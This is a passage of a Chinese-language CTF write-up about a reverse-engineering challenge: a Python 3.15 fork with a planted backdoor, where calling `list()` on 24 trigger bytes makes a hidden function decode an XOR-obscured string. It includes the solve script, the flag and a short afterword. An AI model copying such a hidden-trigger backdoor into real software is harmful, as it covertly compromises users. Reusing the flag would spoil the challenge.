

然後有人這樣做出來了，wtf 破大防。。。。

#### 題目描述

> Someone polluted our private fork of python...

如題，給了一個自製的 python binary forked from python 3.15，就這樣，我們要找到 flag。

#### 分析與解法

那肯定是先用 ghidra 打開來看，沃草有 800 萬個 function @@，直接亂找不行，只好自己編一個正版 python 3.15 然後拿去 bindiff：



ㄜ然後就卡死了...每個 function 都看過一遍還是完全不知道要怎麼辦。

=== 以下是賽後做的 ===



好耶總之我賽中看到了 `list_poorcompare` 但完全沒發現不對勁，研究一下他做的事情是：

1. 在 `list(iterable)` 時偷偷被叫，用 `PySequence_Fast` 把第二個參數變成序列，先檢查長度是不是 24。
1. 如果長度不是 24，或裡面有不是整數的東西，就什麼都不做，回傳 0。
1. 如果 24 個元素全部都剛好等於內建的 `trigger_bytes`，它就把另一個內建陣列 `python_path` 每個 byte 跟 `0xC4` XOR 解碼成字串，把原本的 list 改成只含那個字串的一個元素，並回傳 1。
1. error 時回傳 -1。

因此我們只要把 `trigger_bytes` 放進 list 裡面，然後呼叫 `list()` 就可以觸發這個行為。

```python
TRIGGER = [
    0x98, 0x92, 0x9f, 0x99,
    0xa5, 0x9c, 0xea, 0xbd,
    0xb5, 0x9a, 0xee, 0xb1,
    0x8c, 0xed, 0xba, 0x81,
    0x9d, 0xae, 0x87, 0x8a,
    0xe9, 0xee, 0xb0, 0xa3,
]

secret_list = list(TRIGGER)
print(secret_list)
```

然後用他給的 python binary 執行，就可以拿到 flag！

#### Flag



`EOF{_B4CkD0oR3d_CpYT70N}`

## Pwn

一題都沒做出來，破防。

## 後記

這應該算是我第一次正式打的 CTF 比賽了，其實打的還算不錯，也很開心學到很多，沒有修計算機安全這堂課之前我大概只寫得出一題，現在感覺可以寫出一半的題目了。

我們最後拿到 rank 18，算是很滿意的成績ㄌ。

<Grid cols={2}>
   
   
</Grid>

唯一不滿意的地方是隔天是線代期末考，然後我一做 CTF 就停不下來，所以線代炸了 rip。

總之，真的非常感謝 StarMachine 的隊友們，下次有空再一起玩 CTF，~~還有感謝 LLM 教我看懂大便 code 跟證明數學~~
